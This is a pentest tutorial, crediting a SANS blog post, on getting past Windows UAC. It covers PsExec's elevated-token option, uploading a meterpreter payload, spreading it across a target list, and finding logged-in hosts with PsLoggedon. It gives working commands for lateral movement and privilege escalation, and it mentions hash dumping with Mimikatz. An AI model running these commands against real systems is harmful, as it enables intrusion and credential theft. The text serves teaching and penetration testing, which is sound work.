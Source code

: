 # UAC Bypassing

### PsExec.exe method

For this example, lets just assume that you have gotten a meterpreter shell on a box. For the purposes of this demonstration, this box will be called Box0. Box0 is not a very kind soul though, and as thus although you have an admin shell on it, the UAC is preventing you from dumping the hashes of the system. You would like to upgrade this shell, but alas, the box is running Windows Vista with UAC, which is getting in the way of you escalating your privileges. Furthermore, the box appears to be patched and up to date, so you can't take advantage of any local OS or application exploits to gain privileges. So what can we do?

For starters we can turn to PsExec. PsExec will allow us to run commands against a remote machine, and comes with a handly little option, -h.

```bash
 -h   If the target system is Vista or higher, has the process
	  run with the account's elevated token, if available.
```

Seems handy for what were planning to do. Before we dive in though, I want to quickly note that the way UAC works for an admin user is that there is a normal token that is used for everyday activities and then there is a elevated privileges token that is used for special activities. This is why although we can't dump the hashes just yet, we have the normal admin token, but not the elevated one we need. Keep in mind that various boxes thoughtout the network may have either of these tokens, but only the elevated one will grant the privileges that we want, allowing us to do hash dumping and other fun stuff :)

Continuing on, the first step that we want to do is upload a copy of PsExec.exe and an encoded copy of a malicious meterepreter exe (see the Veil project for details on how to do this) up to the server. To do this, we could do:

```bash
upload *path to meterpreter exe* \\users\\*target user here*\\metpr.exe
upload *path to PsExec.exe* \\users\\*target user here*\\PsExec.exe
```

The next step to do is to gather a list of target IP addresses that you would like to try using your exploited user's authentication credentials against. Once you have done this, save it to a file (targets.txt in our example) and upload it to Box0. 

```bash
upload *path to targets.txt* \\users\\*target user here*\\targets.txt
```

We then can run PsExec.exe as follows:

```bash
PsExec.exe @targets.txt -accepteula -c -f -h -d metr.exe
```

I'll breifly explain the options. "-accepteula" sets the appropriate flag in the registry to make sure that the EULA agreement notification does not randomly pop up on the exploited user's machine. "-c" makes sure that we copy our meterpreter exe (metpr.exe) across to any system where the credentials work, whilst "-f" makes sure we overwrite the file if it already exists. "-h" is the important option here, which will run the meterpreter payload on any machine where the credentials works with the elevated token if the account on that machine has a elevated token attached to it (see PsExec output above). Finally, "-d" will make sure we don't wait for termination (run in background).

Now provided this command runs and we end up uploading and executing the meterpreter payload on a target in our targets.txt file that has admin rights, 2 things will happen. First off, we will not need to worry about credentials as if the user we are authenticating to on the remote machine is an admin (aka the user we compromised is admin on the remote machine), then the credentials for our compromized user will automatically be passed on to the remote machine, thus giving us access to the admin user on that machine without us needing to know the password. Secondly, if the user that we compromised is an admin on this machine, when the meterpreter exe executes, it will bypass the UAC, running instead as the priviledged admin user (it will use the elevated privileges token tied to that account). At this point, we now have a elevated shell on the second box, which we shall call Box1 for the rest of this document (this is after we do a getsystem on Box1 to elevate our privileges (which we can now do as we have the elevated privileges token we didn't have before)). 

We do have a slight problem though. Due to something called the double hop issue (http://support.microsoft.com/default.aspx?scid=kb;en-us;329986) we can't actually use the elevated privileges on Box1 to pass on the elevated privileges to Box0. This is because you can't pass resources more than 1 hop. In our example the first hop is from Box0 to Box1, and the second hop is Box1 to Box0. If we were to try doing this, we would end up trying to authenticate as the NTAUTHORITY\ANONYMOUS user as we would only have the secondary token to Box0, not the primary one (elevated privileges) that we need. The only way we could get around this is if we knew the password for the client on Box0, at which point we could then elevate privileges to the required level. To solve this problem we can use PsLoggedon.exe.


- - - - - -

### PsLoggedon.exe

- - - - - -

We now need to find another host where our user is running with a primary token so that we can escalate privileges on Box0. To do this, we will use PsLoggedon.exe from same PsTools suite that PsExec.exe comes from. Taking the targets.txt file that we created, here is the command to pass through the credentials of our currently compromized user and find out where else he/she is logged in:

```bash
for /F %i in (targets.txt) do @PsLoggedon.exe \\%i 2>NUL | find "*compromized user's name goes here*" >NUL && echo %i
```

This will list all of the boxes where our user is logged into. We can then target this box with the PsExec.exe method we used in the last example. Once we have a shell on the new host from that, we can then dump the credentials with Mimikatz if we want. This box will also have a primary key that we can then use to elevate our shell on Box0, thereby bypassing UAC.

- - - - - -
### Credits

All credits for the examples and explanation comes from Tim Medin's post which you can find here: http://pen-testing.sans.org/blog/pen-testing/2013/08/08/psexec-uac-bypass
The examples are all his work and I take no ownership for them. This article is mearly a rewording of what he has written in my own (tekwizz123's) words.


